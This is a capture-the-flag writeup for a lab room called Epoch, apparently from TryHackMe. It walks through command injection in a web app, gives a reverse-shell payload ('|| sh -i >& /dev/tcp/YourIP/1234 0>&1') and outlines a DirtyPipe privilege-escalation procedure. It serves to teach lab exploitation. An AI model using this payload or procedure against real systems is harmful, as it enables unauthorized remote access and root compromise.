




<h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.

<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ol>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.
             
        </ul>
    </li> 
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.
             
            It works.
        </ul>
    </li> 
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>.  
            
        </ul>
    </li> 
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt and flag.txt using <code>find</code> command. 
            <Strong>FAILED!</Strong> 
            Maybe the only flag we get is the root flag.
        </ul>
    </li> 
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code> 
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li> 
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code> 
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li> 
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code> 
            Found the flag....... 
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>uname -a</code> 
            Linux kernel version 5.  
            This might be vulnerable to <code>DirtyPipe exploit</code>. 
            It's a 3 step process to execute this exploit.
            <ol>
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li>
                
            </ol>
        </ul>
    </li> 
    